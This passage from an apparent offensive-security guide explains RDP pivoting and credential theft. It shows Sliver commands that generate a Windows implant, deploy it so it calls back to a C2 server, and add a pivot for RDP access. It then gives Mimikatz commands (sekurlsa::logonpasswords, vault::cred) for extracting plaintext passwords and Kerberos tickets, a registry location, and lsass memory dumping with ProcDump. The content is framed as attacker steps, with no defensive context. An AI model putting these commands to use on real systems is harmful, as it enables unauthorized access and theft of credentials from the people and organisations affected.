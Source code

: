 3. **Connect via RDP:**
   Now, connect using `mstsc` or any other RDP client to `127.0.0.1:3389`.

#### **Sliver**

Sliver is an open-source C2 framework that supports multi-user environments and offers reverse proxying capabilities.

**Setting Up a Reverse Proxy with Sliver:**

1. **Set Up a Listener:**
   Create a listener in Sliver for the target platform.
   ```bash
   sliver > generate -o windows -f sliver.exe
   ```

2. **Deploy and Connect:**
   Deploy the generated binary to the target machine and run it to connect back to the Sliver C2 server.

3. **Create a Reverse Proxy:**
   Use the `pivot` command to create a reverse proxy.
   ```bash
   pivot add --local 0.0.0.0:3389 --remote <target_ip>:3389
   ```

4. **Connect via RDP:**
   RDP to the target using `localhost:3389`.

### **3. Stealing Clear Text Credentials over RDP**

After gaining RDP access, attackers can steal clear-text credentials directly from the session.

#### **Methods to Steal Credentials:**

1. **Using Mimikatz:**
   Mimikatz is a tool that extracts plaintext passwords, hash, PIN code, and Kerberos tickets from memory.

   **Extracting Credentials:**
   ```bash
   privilege::debug
   sekurlsa::logonpasswords
   ```
   This will display credentials stored in memory, including plain-text passwords if available.

2. **Registry and Cached Credentials:**
   - **Registry:**
     Stored credentials can sometimes be found in the Windows Registry under `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`.
   
   - **Credential Manager:**
     Use Mimikatz to extract credentials from Windows Credential Manager:
     ```bash
     vault::cred
     ```

3. **Memory Dump Analysis:**
   Tools like `ProcDump` can dump the memory of processes like `lsass.exe`, which can then be analyzed offline to extract credentials.

---